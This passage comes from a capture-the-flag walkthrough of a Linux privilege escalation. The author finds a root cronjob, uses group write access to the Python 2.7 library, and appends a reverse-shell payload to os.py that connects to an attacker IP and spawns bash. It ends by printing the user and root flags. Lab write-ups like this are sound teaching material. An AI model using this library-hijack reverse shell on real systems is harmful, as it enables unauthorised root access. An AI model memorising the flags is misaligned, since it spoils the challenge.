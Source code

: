 Nice, it works, we can run linpeas again and `pspy` to check active processes and any other relevant info that may help us to get into root:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617161855.png)

Every minute, a `/opt/statuscheck/checker.py` script runs as root, let's check what it does and if we can modify it:

```python
jack@jack:/tmp$ cat /opt/statuscheck/checker.py
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```

As seen, this runs `os.system` and  uses curl to save a log, we don't have write permission on this file unfortunately so we need another way to exploit this.

Once we use linpeas, we notice we are part of the family group, this group has write permissions over `/usr/lib/python 2.7`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617162155.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617162303.png)

What we can do is modify the `os.py` file to embed a reverse shell that will triggers once the cronjob scripts runs, let's do it, we need to modify:

```
/usr/lib/python2.7/os.py
```

We can add this at the end of the script, you can go to the last line on nano using:

```
alt /
```

Add the following:

```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("VPN_IP",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617162534.png)

Now, save it and start the listener, once the script runs again, we will receive a shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617162645.png)

We can now read both flags and end the CTF:

```
root@jack:~# cat /home/jack/user.txt
0052f7829e48752f2e7bf50f1231548a

root@jack:~# cat /root/root.txt
b8b63a861cc09e853f29d8055d64bffb
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250617162752.png)

